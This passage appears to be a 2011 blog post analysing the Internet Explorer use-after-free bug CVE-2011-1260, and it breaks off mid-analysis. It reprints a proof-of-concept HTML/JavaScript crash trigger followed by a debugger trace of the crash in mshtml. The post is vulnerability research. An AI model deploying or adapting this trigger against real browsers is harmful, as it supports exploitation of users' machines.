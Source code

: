 ```yaml
---
title: "Post-mortem Analysis of a Use-After-Free Vulnerability CVE-2011-1260"
date: 2011-07-07T13:00:00.006-04:00
draft: false
type: posts
summary: "Recently, I've been looking into the exploitation of use-after-free vulnerabilities. This class of bug is very application specific, but armed with just the right amount of knowledge these vulnerabilities can be exploited to bypass most modern OS exploit mitigations. After reading Nephi Johnson's (@d0c_s4vage) excellent article[1] on exploiting an IE"
categories: 
- use-after-free,reverse engineering
---
```

# Post-mortem Analysis of a Use-After-Free Vulnerability CVE-2011-1260


<br/>
Recently, I've been looking into the exploitation of use-after-free vulnerabilities. This class of bug is very application specific, but armed with just the right amount of knowledge these vulnerabilities can be exploited to bypass most modern OS exploit mitigations. After reading Nephi Johnson's (@d0c\_s4vage) excellent article\[[1](#3_1)\] on exploiting an IE use-after-free vulnerability, I decided to ride his coattails and show the steps I used to analyze his proof-of-concept crash code.  
  
As shown in his blog post, here is Nephi's test case that crashes IE:  

<html><br />    <body><br />        <script language='javascript'><br />            document.body.innerHTML += "<object align='right' hspace='1000'   width='1000'>TAG\_1</object>";<br />            document.body.innerHTML += "<a id='tag\_3' style='bottom:200cm;float:left;padding-left:-1000px;border-width:2000px;text-indent:-1000px' >TAG\_3</a>";<br />            document.body.innerHTML += "AAAAAAA";<br />            document.body.innerHTML += "<strong style='font-size:1000pc;margin:auto -1000cm auto auto;' dir='ltr'>TAG\_11</strong>";<br />        </script><br />    </body><br /></html>

Internet Explorer crashes at mshtml!CElement::Doc+0x2  
  

76c.640): Access violation - code c0000005 (first chance)

First chance exceptions are reported before any exception handling.

This exception may be expected and handled.

eax=00000000 ebx=004aedc0 ecx=004e00e9 edx=00000000 esi=0209e138 edi=00000000

eip=6d55c402 esp=0209e10c ebp=0209e124 iopl=0         nv up ei pl zr na pe nc

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246

mshtml!CElement::Doc+0x2:

6d55c402 8b5070          mov     edx,dword ptr \[eax+70h\] ds:0023:00000070=????????

  
Here is the order of execution leading to the crash:  
  

